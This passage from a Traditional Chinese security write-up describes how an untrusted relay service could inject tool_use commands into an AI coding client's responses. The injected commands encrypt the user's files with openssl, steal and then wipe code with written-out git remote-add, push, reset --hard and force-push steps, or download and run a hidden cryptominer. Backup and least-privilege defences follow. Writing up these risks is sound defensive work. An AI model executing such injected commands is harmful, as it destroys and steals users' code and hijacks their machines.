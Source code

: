 ```mermaid
        Note right of Client: 使用者項目檔案被加密, <br> 原始檔案被刪除
        Client->>User: 顯示特定信息: <br> "你的檔案已被加密, <br>請聯繫..."
    end

    alt 方式二: 程式碼倉庫控制
        Client->>Client: 執行非預期Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: 本機和遠端程式碼歷史被清除
        Client->>User: 顯示特定信息: <br> "你的程式碼庫已被清空, <br>請聯繫...恢復"
    end
```

### 風險流程解析

數據劫持的流程與信息取得類似，但在最後一步的目標是「破壞」而非「取得」。

#### 方式一：檔案加密

這種方式是傳統安全風險在AI時代的變種。

1. **注入加密指令**: 不可信的中轉服務在模型返回的響應中，注入一個或一系列破壞性的 `tool_use` 指令。例如，一個 `execute_shell` 指令，其內容是遍歷使用者硬碟，使用 `openssl` 或其它加密工具對特定檔案類型（如 `.js`, `.py`, `.go`, `.md`）進行加密，並刪除原始檔案。
2. **客戶端執行**: 客戶端的Tool Use執行器在使用者未察覺的情況下執行了這些指令。
3. **顯示特定信息**: 加密完成後，可以注入最後一個指令，彈出一個檔案或在終端顯示特定信息，要求使用者進行聯繫以恢復數據。

#### 方式二：程式碼倉庫控制

這是針對開發者的精準打擊，潛在危害性極大。

1. **注入Git操作指令**: 不可信的中轉服務注入一系列 `git` 相關的 `tool_use` 指令。
2. **程式碼備份**: 第一步，靜默地將使用者的程式碼推送到攻擊者私有倉庫。`git remote add backup <third_party_repo_url>`，然後 `git push backup master`。
3. **程式碼銷毀**: 第二步，執行破壞性操作。`git reset --hard <a_very_old_commit>` 將本機倉庫回滾到一個很早的狀態，然後 `git push origin master --force` 強制推送到使用者的遠端倉庫（如GitHub），這將徹底覆蓋遠端的提交歷史。
4. **後續操作**: 使用者會發現自己的本機和遠端倉庫程式碼幾乎全部丟失。操作者通過之前留下的聯繫方式（或在程式碼中注入一個信息檔案）進行聯繫，以進行後續的數據恢復協商。

這種操作的嚴重性在於，它不僅破壞了本機工作區，還可能摧毀了遠端備份，對於沒有其它備份習慣的開發者來說是致命的。

### 如何防範

除了之前提到的防範措施外，針對數據劫持還需要：

* **做好數據備份**: 定期對重要檔案和程式碼倉庫進行多地、離線備份。這是抵禦任何形式數據風險的最終防線。
* **最小權限原則**: 運行客戶端（特別是IDE插件）的使用者應具有盡可能低的系統權限，避免其能夠加密整個硬碟或執行敏感系統命令。

## 更多高級風險向量

除了直接的信息取得和數據劫持，不可信的中轉服務還可以利用其中間人地位，發動更高级、更隱蔽的行動。

### 方式三：資源劫持 (Resource Hijacking)

操作者的目標不一定是使用者的數據，而可能是使用者的計算資源。這是一種長期的寄生式風險。

1. **注入挖礦指令**: 當使用者發出一個常規請求後，中轉商在返回的響應中注入一個 `execute_shell` 指令。
2. **背景執行**: 該指令會從攻擊者伺服器下載一個靜默的加密貨幣挖礦程式，並使用 `nohup` 或類似技術在背景悄無聲息地運行。
3. **長期潛伏**: 使用者可能只會感覺到電腦變慢或風扇噪音變大，很難直接發現背景的進程。操作者則可以持續利用使用者的CPU/GPU資源獲利。

